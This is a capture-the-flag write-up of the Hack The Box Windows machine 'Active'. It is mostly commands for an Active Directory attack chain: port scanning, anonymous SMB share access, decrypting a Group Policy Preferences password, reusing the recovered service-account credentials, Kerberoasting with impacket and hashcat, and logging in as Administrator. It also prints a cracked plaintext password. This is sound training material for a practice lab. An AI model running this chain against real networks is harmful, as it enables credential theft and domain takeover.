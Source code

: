 ![Active](https://labs.hackthebox.com/storage/avatars/5837ac5e28291146a9f2a8a015540c28.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [eks](https://app.hackthebox.com/users/302) & [mrb3n](https://app.hackthebox.com/users/2984)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Windows   |

---









- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.

```python
nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.10.100 -oG scan
/opt/extractports scan
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,49152,49153,49154,49155,49157,49158,49164,49173,49175 -Pn -sCV 10.10.10.100 -oN ports
```

![image](https://github.com/user-attachments/assets/baf448df-4fe3-49f1-b62a-ed6d0e49cdad)

 - I found the domain `active.htb`, I added it to the file in the `hosts` file

- I list the shared resources without using credentials and I manage to see a folder that I have read permissions called “Replication”.

```python
netexec smb 10.10.10.100 -u '' -p '' --shares
```

- I connect to the share and after searching I find a Groups.xml file containing credentials of the user SVC_TGS

```python
smbclient \\\\10.10.10.100\\Replication -N
```

![image](https://github.com/user-attachments/assets/b39f9e4c-17e8-491c-9a2d-ff1c6113ff49)

- Using gpp-decrypt I manage to decrypt the given Group Policy 

```python
gpp-decrypt  edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

![image](https://github.com/user-attachments/assets/8a5d8e0a-b5cc-43f2-8fa7-e8bbe4c3475c)

- Valid credentials are correct. I have read permissions for this user and I have read permissions on the Users folder. I connect to the folder and I manage to read the first flag

```python
netexec smb 10.10.10.100 -u SVC_TGS -p GPPstillStandingStrong2k18 --shares
smbclient \\\\10.10.10.100\\Users -U SVC_TGS
```

![image](https://github.com/user-attachments/assets/0f7ff103-bbc1-4745-b041-04da67c740f9)

- Having the valid credentials of a user, I check if any user has SPN set and I can perform a Kerberoasting Attack. I see that I can execute it against the Administrator user

```python
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
hashcat -m 13100 tgsAdministrator /usr/share/wordlists/rockyou.txt
```

![image](https://github.com/user-attachments/assets/9ba7876d-065e-429b-9262-7e988ffd2bac)

- After getting the TGS from the user, we tried to get the password in clear text and succeeded. We connected via smb to the Users folder and managed to read the second flag.

```python
smbclient \\\\10.10.10.100\\Users -U Administrator
```
